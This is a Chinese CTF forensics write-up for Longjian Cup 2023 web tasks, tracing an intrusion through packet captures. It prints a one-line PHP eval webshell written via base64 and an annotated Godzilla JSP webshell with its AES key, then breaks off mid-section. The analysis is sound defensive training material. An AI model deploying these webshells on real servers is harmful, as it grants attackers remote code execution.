# [陇剑杯 2023]ez_web（一）

## #服务器自带后门文件

问题：服务器自带的后门文件名是什么？（含文件后缀）
得到的答案使用NSSCTF{}格式提交

解题：

因为是需要查找服务器自带的文件，所以可以猜测攻击者是否会进行目录扫描操作，如果有对目录进行扫描的话我们就可以借助扫描的结果去找到存在的文件





这里可以看到d00r.php文件访问的状态码是200并且传入system("whoami")也正常执行并返回www，一开始以为是这个d00r.php，但是提交是错误的，那我们看看这个d00r.php是怎么生成的

```
http contains "d00r.php"
```



可以看到一个跟d00r不相干的数据包出现了，我们跟进看一下



可以看到一开始访问/e/public/ViewClick/ViewMore.php的时候文件是存在的，并且在流量包中看到了对d00r.php文件的创建

```
a=file_put_contents%28%27d00r.php%27%2C+base64_decode%28%27PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs%2FPg%3D%3D%27%29%29%3B

URL解码后内容为
a=file_put_contents('d00r.php', base64_decode('PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg=='));

PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==在base64解码后内容为：
<?php eval($_POST['cmd']);?>
```

并且用过滤器搜寻了这个文件



很明显，我们的d00r.php文件是通过/e/public/ViewClick/ViewMore.php文件去生成的，并且ViewMore.php文件之前并没有创建的痕迹，所以/e/public/ViewClick/ViewMore.php文件是服务器自带的后门文件

```
NSSCTF{ViewMore.php}
```

# [陇剑杯 2023]ez_web（二）

## #服务器内网ip

问题：服务器内网IP是多少？
得到的答案使用NSSCTF{}格式提交

解题：

在d00r.php的利用中我们可以看到攻击者曾传入许多命令，也包括ifconfig



## ifconfig命令

`ifconfig`（**Interface Configurer**）是 Linux/Unix 系统中用于查看和配置网络接口（网卡）信息的经典命令。



我们分析一下这个内容

这里一共有五个网络接口

- **`br-2fc7bfd07160`**：Docker 自定义网桥
- **`docker0`**：Docker 默认网桥
- **`ens33`**：物理网卡（主网络）
- **`ens38`**：物理网卡（第二网络）
- **`lo`**：本地回环接口

最后一个本地回环接口我们就不说了，是最常见的本地回环测试地址127.0.0.1

关键在于这两个物理网卡

```
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.162.130  netmask 255.255.255.0  broadcast 192.168.162.255
        inet6 fe80::ae06:234d:1e0a:9aac  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:08:04:89  txqueuelen 1000  (Ethernet)
        RX packets 397410  bytes 398085633 (398.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 140095  bytes 20078864 (20.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens38: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.101.132  netmask 255.255.255.0  broadcast 192.168.101.255
        inet6 fe80::68af:1a5:a54c:7366  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:08:04:93  txqueuelen 1000  (Ethernet)
        RX packets 362  bytes 35928 (35.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1654  bytes 141760 (141.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

从该http流可以看到



上面显示的目标ip是192.168.162.130，就是服务器公网ip，也就对应了主网络的物理网卡

所以192.168.101.132就是他的内网ip

```
NSSCTF{192.168.101.132}
```

那我们这里需要科普一下，什么是内网ip，内网ip的范围是多少

## 什么是内网ip

内网（**内部网络**，也称为**私有网络**或**局域网 LAN**）是指在一个组织、家庭或特定范围内建立的封闭网络环境，**不直接暴露在公共互联网上**。内网中的设备可以互相通信，但通常需要通过网关（如路由器、防火墙）才能访问外网（Internet）。

## 内网ip的范围

内网设备通常使用 **RFC 1918** 定义的私有 IP 地址范围，这些地址在互联网上不可路由：

- **`10.0.0.0/8`**（`10.0.0.0` ~ `10.255.255.255`）
- **`172.16.0.0/12`**（`172.16.0.0` ~ `172.31.255.255`）
- **`192.168.0.0/16`**（`192.168.0.0` ~ `192.168.255.255`）

## **IPv4 地址分类**

在早期的 IPv4 分类中，IP 地址被分为 **A、B、C、D、E 五类**，其中 **C 类地址** 适用于小型网络：

| **类别** | **IP 范围**                     | **默认子网掩码** | **适用场景**     |
| -------- | ------------------------------- | ---------------- | ---------------- |
| A 类     | `1.0.0.0` ~ `126.255.255.255`   | `255.0.0.0`      | 大型企业、运营商 |
| B 类     | `128.0.0.0` ~ `191.255.255.255` | `255.255.0.0`    | 中型企业、校园网 |
| **C 类** | `192.0.0.0` ~ `223.255.255.255` | `255.255.255.0`  | **小型局域网**   |
| D 类     | `224.0.0.0` ~ `239.255.255.255` | 无（组播地址）   | 视频会议、流媒体 |
| E 类     | `240.0.0.0` ~ `255.255.255.255` | 保留（实验用途） | 未分配           |

# [陇剑杯 2023]ez_web（三）

问题：攻击者往服务器中写入的key是什么？
得到的答案使用NSSCTF{}格式提交

解题：

观察到一个流量



有写文件的操作，并且文件名是k3y_f1le，我们看看写入了什么内容

那段编码是**Base64 编码的 ZIP 压缩文件**

## #Base64 编码的 ZIP 压缩文件

**原始 ZIP 文件**

ZIP 文件的标准格式（PKZIP）包含以下关键部分：

- **文件头**：`50 4B 03 04`（PK..，十六进制标识）。
- **文件数据**：压缩的文件内容。
- **中央目录记录**：存储文件元信息（文件名、大小等）。
- **结束记录**：`50 4B 05 06`（PK..，标记文件结束）。

**（2）Base64 编码后**

- Base64 特征
  - 以 `UEsDBBQ` 开头（对应 ZIP 文件头的 `PK..` 的 Base64 编码）。
  - 长度是 4 的倍数（不足时用 `=` 填充）。
  - 由字母（A-Za-z）、数字（0-9）、`+`、`/` 和 `=` 组成。

那我们提取出来为zip

- 先将编码内容保存为txt文件

- 使用Windows的命令还原成zip文件

```
certutil -decode 1.txt source.zip
```




但是这个key是需要密码的，这个密码从哪来呢？

我往上翻了一下发现有查看password的操作，猜测这个就是压缩包的密码



```
7e03864b0db7e6f9
```

输入密码果然是对的，成功拿到key的值

```
NSSCTF{7d9ddff2-2d67-4eba-9e48-b91c26c42337}
```

# [陇剑杯 2023]hard_web_1

## #查看开放端口（TCP三次握手）

问题：服务器开放了哪些端口，请按照端口大小顺序提交答案，并以英文逗号隔开(如服务器开放了80 81 82 83端口，则答案为NSSCTF{80,81,82,83})

解题：

先看看tcp的三次握手，用tcp.connection.synack 过滤器

```
tcp.connection.synack 
```

tcp.connection.synack 主要用于识别 TCP 三次握手中的 SYN-ACK 包。这个过滤器用于显示 TCP 连接建立过程中的 SYN-ACK 数据包，也就是我们说的握手的第二步，服务器返回给客户端的数据包



我们随便选个数据包看看



这里的话给了源端口和目的端口，这里的源端口就是我们的服务器的端口，因为这是服务器发出的tcp数据包，那我们就看看有哪些端口就行了

```
NSSCTF{80,888,8888}
```

# [陇剑杯 2023]hard_web_2

问题：服务器中根目录下的flag值是多少？NSSCTF{}

解题：检索一下http的数据包

发现攻击者进行了大量的目录扫描



然后发现了一个数据包



发现这里有cmd命令执行的口子，ls回显此时在根目录下的文件，我们继续往下看



我们分析一下这个shell.jsp

```javascript
<%! 
String xc="748007e861908c03"; //AES加密密钥
class X extends ClassLoader{//用于动态加载恶意类
    public X(ClassLoader z) { super(z); }  // 继承父类 ClassLoader
    public Class Q(byte[] cb) { return super.defineClass(cb, 0, cb.length); }  // 动态加载字节码
}
//AES加密和解密操作
public byte[] x(byte[] s, boolean m) {
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");  // 获取 AES 加密实例
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));  // 初始化（1=加密，2=解密）
        return c.doFinal(s);  // 执行加密/解密
    } catch (Exception e) { return null; }
}

%>
<%
try{
    //读取HTTP请求体
    byte[] data=new byte[Integer.parseInt(request.getHeader("Content-Length"))];//获取 HTTP 请求的数据长度
    java.io.InputStream inputStream= request.getInputStream();//获取HTTP请求的输入流，也就是发送的加密数据
    int _num=0;
    while ((_num+=inputStream.read(data,_num,data.length))<data.length);
    data=x(data, false);//对数据进行AES解密
    if (session.getAttribute("payload")==null){//检查 session 里是否已经存储了恶意类。
        session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));//用自定义的 ClassLoader（X 类）加载攻击者发送的 恶意字节码，并把加载的恶意类存入session
    }else {
    request.setAttribute("parameters", data);  // 存储解密后的数据（攻击者的命令）
    Object f = ((Class) session.getAttribute("payload")).newInstance();  // 实例化恶意类
    java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();  // 准备输出流
    f.equals(arrOut);  // 可能把输出流传给恶意类
    f.equals(pageContext);  // 可能把 JSP 上下文传给恶意类
    f.toString();  // 可能触发恶意代码执行
    response.getOutputStream().write(x(arrOut.toByteArray(), true));  // 加密并返回结果
}
}catch (Exception e){}
%>

```

很明显是哥斯拉webshell，因为这里对请求和响应进行了加密操作

- 使用AES加密算法对请求和响应数据进行加密和解密操作，密钥为`748007e861908c03`。
- 攻击者发送加密的命令，然后服务器解密后交给之前加载的恶意类去执行，并将结果加密返回
- 加密后的数据通过HTTP请求体传输，攻击者收到加密的响应后进行解密拿到执行结果

这个shell.jsp的文件是怎么来的呢？

